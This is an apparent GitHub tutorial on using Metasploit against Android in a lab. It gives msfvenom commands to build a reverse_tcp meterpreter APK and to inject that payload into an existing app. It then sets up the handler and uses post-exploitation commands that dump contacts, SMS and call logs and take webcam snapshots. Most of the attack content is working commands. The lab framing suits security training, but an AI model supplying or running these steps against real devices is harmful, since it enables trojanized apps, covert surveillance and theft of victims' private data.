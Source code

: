 # Metasploit For Android

## DESCRIPTION

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing. It is owned by Boston, Massachusetts-based security company Rapid7.

Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine.

## PREREQUISITES

1. Metasploit

2. adb(Android debug bridge)

3. Genymotion/Android device

## Exploitation to get an android reverse shell
Connect to the remote target device(genymotion/android) using adb

![](https://github.com/v1ns3c/Write-ups/blob/b8eb5b3375fe3ebeb7c3236309f3b684487479ba/Images/Documentations/Metasploit_for_Android/0_1.jpeg)

1) Steps to generate an apk with the reverse_tcp payload
Go to ‘opt/metasploit-framework/bin’ and enter the following command to generate an apk

$ ./msfvenom -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

![](https://github.com/v1ns3c/Write-ups/blob/efa9b7c48ef35f5b35c27813c16c9c08a0e2a4ed/Images/Documentations/Metasploit_for_Android/1.jpg)
![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/2.png)

Install the apk generated on the target device(genymotion/android)

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/3.jpg)
![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/4.png)

Go to ‘opt/metasploit-framework/bin’ and follow the steps to get the reverse shell

$ ./msfconsole

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/5.jpg)

$ use exploit/multi/handler

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/6.png)


$ set payload android/meterpreter/reverse_tcp

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/7.png)

$ show options

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/8.png)

$ set LHOST [localhost ip]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/9.png)

$ exploit ‘or’ run

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/10.png)

Click on the test.apk application in the remote target device(genymotion/android) to get the reverse shell

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/11.png)

$ help ‘or’ ?

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/12.png)

$ dump_contacts

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/13.png)

$ dump_sms

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/14.png)

$ dump_calllog

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/15.png)

Go to the ‘metasploit-framework’ folder to get the dumps

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/16.jpg)

$ cat [calllog.txt]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/17.jpg)

$ cat [contacts.txt]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/18.jpg)

$ cat [sms.txt]

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/19.jpg)

Commands for webcam

$ webcam_list

$ webcam_snap 1 ‘or’ 2

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/20.jpg)

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/21.jpg)

2) Steps to inject reverse_tcp payload in an existing app(diva-beta.apk)

Go to ‘opt/metasploit-framework/bin’ and enter the following command

$ ./msfvenom -x <apk path/apkname.apk> -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/22.jpg)

Install the app in the device and repeat the msfconsole steps as shown earlier to get the reverse shell.

## Extra Commands for metasploit

$ show exploits- (Get all exploits till date)

$ search <any random keyword>

(ex- search android- to get all exploits related to android)

$ info <exploit>

### Thanks for reading!





